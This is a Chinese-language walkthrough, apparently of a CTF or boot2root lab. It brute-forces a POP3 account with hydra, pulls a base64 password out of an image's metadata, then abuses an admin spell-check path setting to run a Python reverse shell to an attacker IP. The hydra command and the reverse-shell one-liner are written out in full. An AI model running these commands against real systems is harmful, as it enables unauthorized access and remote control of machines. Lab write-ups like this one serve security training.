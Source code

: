 
在一个地方找到一封邮件

![image.png](https://s2.loli.net/2025/05/02/oUTkvZEjHOLcz85.png)

邮箱账户是doak 我们拉到hydra去爆破

```
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -s 55007 61.139.2.168 pop3 -t 64 
```

![image.png](https://s2.loli.net/2025/05/02/3auzH2q7E4F8SsP.png)

登录进去看看

又找到新的密码

![image.png](https://s2.loli.net/2025/05/02/8AnP49ErIg5RSMs.png)

登录到doak的账户看看有啥吗 找到一个路径并下载了图片

binwalk和foremost都分离不出来

又试了试exiftool和strings

发现有个base64加密的东东

![image.png](https://s2.loli.net/2025/05/02/Vq3GMJXwo58NKlS.png)

估计是密码还是啥

用admin和密码成功登录进管理员用户

## 漏洞利用

### 配置 反弹shell
其实就是在网站能否找到能够执行反弹shell的代码 这里原本是个拼写检查 我们设置成shell


![image.png](https://s2.loli.net/2025/05/02/l6BdYF5qitJbgEa.png)


找到个地方 可以修改系统路径 我们用 python反弹shell试试

```
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("61.139.2.153",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
 
![image.png](https://s2.loli.net/2025/05/02/DUyAfvF3ogYeP2s.png)

反弹成功

![image.png](https://s2.loli.net/2025/05/02/vHo5MIFnbzrhT6O.png)


## 提权
![image.png](https://s2.loli.net/2025/05/02/ncNIl2WFSOTGfYq.png)
